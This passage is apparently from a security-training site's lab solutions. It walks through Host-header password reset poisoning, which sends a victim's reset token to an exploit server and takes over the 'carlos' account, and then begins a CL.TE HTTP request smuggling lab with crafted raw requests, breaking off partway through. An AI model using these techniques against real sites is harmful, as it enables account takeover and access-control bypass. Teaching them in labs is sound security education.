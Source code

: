 ### Lab: Basic password reset poisoning

1.  Go to the login page and notice the "Forgot your password?" functionality. Request a password reset for your own account.
2.  Go to the exploit server and open the email client. Observe that you have received an email containing a link to reset your password. Notice that the URL contains the query parameter `temp-forgot-password-token`.
3.  Click the link and observe that you are prompted to enter a new password. Reset your password to whatever you want.
4.  In Burp, study the HTTP history. Notice that the `POST /forgot-password` request is used to trigger the password reset email. This contains the username whose password is being reset as a body parameter. Send this request to Burp Repeater.
5.  In Burp Repeater, observe that you can change the Host header to an arbitrary value and still successfully trigger a password reset. Go back to the email server and look at the new email that you've received. Notice that the URL in the email contains your arbitrary Host header instead of the usual domain name.
6.  Back in Burp Repeater, change the Host header to your exploit server's domain name (`your-exploit-server-id.web-security-academy.net`) and change the `username` parameter to `carlos`. Send the request.
7.  Go to your exploit server and open the access log. You will see a request for `GET /forgot-password` with the `temp-forgot-password-token` parameter containing Carlos's password reset token. Make a note of this token.
8.  Go to your email client and copy the genuine password reset URL from your first email. Visit this URL in your browser, but replace your reset token with the one you obtained from the access log.
9.  Change Carlos's password to whatever you want, then log in as `carlos` to solve the lab.

## HTTP Request Smuggling

### Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

1.  Try to visit `/admin` and observe that the request is blocked.
2.  Using Burp Repeater, issue the following request twice:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 37  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /admin HTTP/1.1  
    X-Ignore: X`
3.  Observe that the merged request to `/admin` was rejected due to not using the header `Host: localhost`.
4.  Issue the following request twice:  
    `POST / HTTP/1.1  
    Host: your-lab-id.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 54  
    Transfer-Encoding: chunked  
      